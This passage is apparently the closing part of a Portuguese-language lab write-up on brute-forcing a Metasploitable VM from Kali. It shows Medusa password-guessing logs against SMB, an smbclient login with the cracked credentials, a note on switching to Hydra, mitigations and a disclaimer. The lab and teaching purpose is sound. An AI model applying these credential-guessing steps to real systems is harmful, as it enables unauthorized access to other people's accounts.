2026-04-06 00:38:26 ACCOUNT FOUND: [smbnt] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]
2026-04-06 00:38:26 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: service (3 of 3, 3 complete) Password: password (1 of 4 complete)
2026-04-06 00:38:26 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: service (3 of 3, 3 complete) Password: 123456 (2 of 4 complete)
2026-04-06 00:38:26 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: service (3 of 3, 3 complete) Password: Welcome123 (3 of 4 complete)
2026-04-06 00:38:26 ACCOUNT CHECK: [smbnt] Host: 192.168.56.101 (1 of 1, 0 complete) User: service (3 of 3, 4 complete) Password: msfadmin (4 of 4 complete)
```
Note que temos um resultado com sucesso para o usuário **msfadmin**:
```
2026-04-06 00:38:26 ACCOUNT FOUND: [smbnt] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS (ADMIN$ - Access Allowed)]
```
Agora podemos utilizar o usuário e senha que o Medusa identificou para testar e confirmar que temos acesso ao serviço SMB.
No terminal do Kali vamos acessar o serviço SMB utilizando o cliente smbclient e verificar se o login e senha identificados permitem o acesso:
```bash
$ smbclient -L //192.168.56.101 -U msfadmin
Password for [WORKGROUP\msfadmin]:

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	tmp             Disk      oh noes!
	opt             Disk      
	IPC$            IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
	ADMIN$          IPC       IPC Service (metasploitable server (Samba 3.0.20-Debian))
	msfadmin        Disk      Home Directories
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            METASPLOITABLE

```
Quando inserimos a senha que descobrimos no ataque com o Medusa, temos acesso aos dados do SMB do usuário msfadmin.


### Troubleshooting
Ao utilizar o Medusa para o ataque de força bruta no formulário web, são retornados avisos (_warnings_) de "método não encontrado", e o resultado que o Medusa exibe é confuso, pois ele indica "ACCOUNT FOUND" mesmo para combinações de usuário e senha que não são válidas. Em execuções consecutivas o Medusa apresenta diferentes resultados. Possivelmente o problema está na utilização do módulo "http" ao invés do módulo "web-form" no parâmetro ```-M``` que utilizamos no comando. Porém o módulo "web-form" não faz parte da instalação padrão do Medusa no Kali.

Como solução para esses problemas que o Medusa apresenta, foi utilizada a ferramenta Hydra, que já vem instalada por padrão no Kali e que também permite a execução de ataques de força bruta, e tem um resultado mais assertivo e claro.


## 5. Análise de resultados
Nesta simulação de ataque de força bruta conseguimos realizar com sucesso todos os 3 diferentes ataques propostos. Mesmo em um ambiente criado especificamente para este tipo de simulação, como é o Metasploitable, foi possível identificar as diferentes etapas no processo do ataque, como o reconhecimento e enumeração, a exploração das vulnerabilidades e a pós-exploração, onde pudemos validar os resultados dos ataques utilizandos os dados de usuário e senha identificados em cada serviço.

Em um ambiente real, esse tipo de ataque poderá ser mais demorado, e inclusive podem ser encontrados obstáculos de defesa que não estão presentes nesse laboratório utilizando Metasploitable.

Também é importante destacar que nenhum script ou _exploit_ adicional ou mais elaborado foi utilizado, fizemos apenas a utilização de ferramentas existentes com a utilização de dados capturados através de simples ações de reconhecimento e enumeração.


## 6. Mitigação e defesa
Como vimos, os ataques tiveram sucesso devido a fatores que nem sempre dependem de grandes investimentos, softwares caros ou complexos.

Os ataques que simulamos nesse laboratório poderiam ser mitigados com ações como:
- política de senhas fortes: uma política de senhas que obrigue o usuário a criar senhas mais complexas e que não permita senhas conhecidas, pode ajudar a reduzir a probabilidade de sucesso de ataques de força bruta. Vale ressaltar que nem sempre a obrigatoriedade de mudança peródica da senha é interessante, visto que a tendência é de os usuários utilizarem o mesmo padrão de senha com alteração de poucos caracteres.
- a utilização de autenticação de dois fatores (A2F) também é uma mecanismo de proteção que auxilia na mitigigação de ataques de força bruta. Mesmo os mecanismos mais simples podem impor uma barreira que desestimula o atacante.
- bloqueio de IP's ou _rate limiting_ também são mecanismos que ajudam a proteger a infraestrutura de segurança. A utilização de configurações e ferramentas que implementem esses mecanismos não são complexas, mas exigem o monitoramento constante e atualizações frequentes de configurações.
- o monitoramento de logs e comportamento também é maneira de adicionar uma camada extra de segurança. Soluções que utilizam Inteligência Artificial podem mapear comportamentos e identificar ações fora do padrão que podem significar tentativas de ataques.


## 7. Referências e links
[Kali Linux](https://www.kali.org)

[Medusa](http://www.foofus.net/jmk/medusa/medusa.html)

[Nmap](https://nmap.org/book/)

[Hydra](https://github.com/vanhauser-thc/thc-hydra)

[Base de vulnerabilidades](https://www.cve.org)

[Base de vulnerabilidades e exploits](https://www.exploit-db.com)

[Repositório de listas de senhas](https://github.com/danielmiessler/SecLists/tree/master)

[MITRE ATT&CK Framework](https://attack.mitre.org)

[Diretrizes de senha do NIST](https://proton.me/business/blog/nist-password-guidelines)


## 8. Licença e Aviso Legal
Este projeto está licenciado sob a [MIT License](#licença-mit). 

### Aviso de Responsabilidade
> **IMPORTANTE:** Este projeto é estritamente para fins **educacionais e de pesquisa**. Todos os testes descritos foram realizados em um ambiente virtual isolado (Metasploitable) com autorização do proprietário do laboratório. O autor não se responsabiliza por qualquer uso indevido das informações, scripts ou técnicas aqui apresentadas. O uso deste material em sistemas reais, redes corporativas ou dispositivos de terceiros sem autorização explícita por escrito é **ilegal e antiético**. Use com responsabilidade.

### Licença MIT
Copyright (c) 2026 Fabiano Bernardi

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.
